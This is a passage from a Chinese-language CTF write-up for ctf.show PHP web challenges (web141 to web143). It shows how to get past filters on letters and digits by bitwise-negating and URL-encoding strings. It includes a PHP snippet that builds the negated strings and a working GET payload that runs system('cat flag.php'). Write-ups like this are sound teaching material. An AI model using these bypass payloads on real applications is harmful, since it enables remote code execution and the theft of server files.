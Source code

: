 v3 这个正则过滤了字母和数字

hint 提示是取反

参考文章 [https://blog.csdn.net/miuzzx/article/details/109143413](https://blog.csdn.net/miuzzx/article/details/109143413)

然后绕过 return 的方法要利用以下的 trick

> 在 PHP 中, 函数与数字进行运算的时候, 函数能够被正常执行

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208131210383.png)

构造 payload

```php
<?php

echo urlencode(~'system');
echo '<br/>';
echo urlencode(~'cat flag.php');

?>
```

get 传参

```
v1=0&v2=0&v3=-(~'%8C%86%8C%8B%9A%92')(~'%9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F')-
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208131213481.png)

好像取反后的字符串不加引号也可以

## web142

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208131216415.png)

????

直接乘以0

```
http://64c7d6e3-5a90-42c6-89f0-4452394edf28.challenge.ctf.show/?v1=0
```

0x36d 转成十进制是 877

传一个 0x0 也行

## web143

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208131219598.png)

把 `&` `|` `~` 都过滤了, 不过思路已经很明显了... 我们需要找一个其它的位运算符

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208131222935.png)
